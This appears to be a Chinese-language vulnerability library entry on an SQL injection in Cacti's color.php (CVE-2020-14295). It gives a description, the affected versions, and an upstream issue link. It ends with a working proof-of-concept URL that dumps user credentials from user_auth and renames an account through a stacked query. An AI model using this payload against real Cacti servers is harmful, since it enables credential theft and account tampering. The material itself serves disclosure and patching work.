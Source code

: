# Cacti SQL 注入漏洞 CVE-2020-14295

# Cacti SQL 注入漏洞 CVE-2020-14295

## 漏洞描述

Cacti 1.2.12 中 color.php 中存在 SQL注入漏洞，允许具有管理员权限的攻击者通过 filter 参数注入 SQL。因为产品接受堆积的查询，所以这可能导致远程命令执行。目前该漏洞 EXP 已公开。

参考链接：

- https://github.com/Cacti/cacti/issues/3622

## 漏洞影响

```
Cacti < 1.2.13
```

## 漏洞复现

poc：

```
/cacti/color.php?action=export&header=false&filter=')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+user_auth+set+username='sqli'+where+id=3;--+-
```


